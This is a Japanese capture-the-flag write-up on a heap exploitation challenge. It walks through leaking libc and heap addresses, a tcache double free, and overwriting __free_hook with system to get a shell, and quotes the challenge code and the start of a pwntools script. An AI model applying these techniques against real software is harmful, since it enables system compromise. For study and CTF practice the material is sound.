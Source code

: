 
神戸ビーフがちゃんと入っています。これで任意のアドレスをlistに登録することができました。
これを利用して、以下の手順で解いていきます。

1. `Set value (Double)`で偽のポインタをGOTに向けます。
2. `Show list`でlibcアドレスをリークします。
3. `Set value (String)`で、heapのチャンクを適当に確保します。 
4. `Set value (Dobule)`で偽のポインタを、今度は2.で取ったチャンクに向けます。例えば3.では`list[1]`でポインタを持ったのであれば、0x6020a8に向ければ良いです。これで`Show list`することでheapアドレスもリークします。
5. `Set value (Double)`で偽のポインタを、3.でリークできたアドレスと同じ値に向けます。これで同じチャンクに２つのポインタが向きます。
6. 3.と5.で作ったポインタ（5.は本当はDouble）を`Delete value`でfreeします。これで任意アドレス確保ができるようになります。（この辺りが不明であれば、tcache dupなどで調べると少し理解が進むかもしれません。ここでは説明を省略します。）
7. 一度目の`Set value (String)`で`__free_hook`を狙います。（Partial RELROなのでGOTを狙ってもいいです。私は特にこだわりがなかったのでコントロールしやすそうなのを選びました。）
8. 2度めの`Set value (String)`によって、次の確保先が`__free_hook`にセットされます。
9. 普通に`Set value (String)`で`/bin/sh`をセットして`Delete value`すれば終わると思いきや、SEGVします。少し調べてみると、以下のメニューの数字を入力するところでmalloc→freeが走っているようです。

```c
int menu(void) {
  puts("1. Set value");
  puts("2. Show list");
  puts("3. Delete value");
  return get_integer("> ");
}

~~~

int get_integer(const char *msg) {
  char *p = get_string(msg);
  int v = atoi(p);
  free(p);
  return v;
}
```

というわけで、最後はメニューで`1`を送る代わりに、`/bin/sh`を送ってやれば良いでしょう。同時に`__free_hook`へ`system`を入れたいため、`__free_hook-8`をallocして、`/bin/sh\x00+p64(system)`を投げてやって終わりです。

```python
from pwn import *
import struct
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './chall'
HOST = 'pwn.kosenctf.com'
PORT = 9005

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)
    # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)
```